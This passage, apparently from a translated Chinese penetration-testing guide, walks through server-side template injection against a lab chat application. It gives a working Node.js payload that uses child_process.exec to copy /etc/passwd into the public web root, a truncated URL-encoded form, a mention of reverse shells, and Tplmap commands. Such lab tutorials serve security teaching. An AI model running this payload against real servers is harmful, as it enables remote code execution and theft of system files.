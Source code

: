 远程执行代码：

* 发送此最终 payload ，我们应该在 global.process.mainModule 中看到“require”函数。我们现在可以将其设置为使用.exec 导入‘child_process’以获取 RCE：
    *  - var x = global.process.mainModule.require
    *  - x('child_process').exec('cat / etc / passwd >>/opt/web/chatSupportSystems/public/accounts.txt')
    *  URL 编码：
%0a%2d%20%76%61%72%20%78%20%3d%20%67%6c%6f%6
* 在上面的例子中，我们像在 JavaScript 中一样定义变量“x”，但行开头的破折号表示无缓冲输出（隐藏）。我们正在使用全局对象和我们最终需要的模块‘require’，这允许我们使用‘child_process’.exec 来运行系统命令。
* 我们将 /etc/passwd 的内容输出到 Web 公共根目录，这是我们唯一具有写入权限的目录（由应用程序创建者设计），允许用户查看内容。我们也可以使用系统命令执行反向shell或其他任何允许的操作。
* 我们可以看到 http://chat:3000/accounts.txt 将包含的内容
* 来自 Web 服务器的 /etc/passwd。
* 使用此命令在系统上执行完整的 RCE 并返回 shell。

 ![](img/3-32.png)

现在，我们可以对这一系列操作实现自动化吗？当然可以。有一个类似 SQLmap 的名为 [Tplmap](https://github.com/epinna/tplmap) 的工具，它可以尝试模板注入的所有不同组合：
* cd /opt/tplmap
* ./tplmap.py -u "http://chat:3000/ti?user=*&comment=asdfasdf&link="

 ![](img/3-33.png)

参考：

* http://blog.portswigger.net/2015/08/server-side-template-injection.html 
* https://hawkinsecurity.com/2017/12/13/rce-via-spring-engine-ssti/
 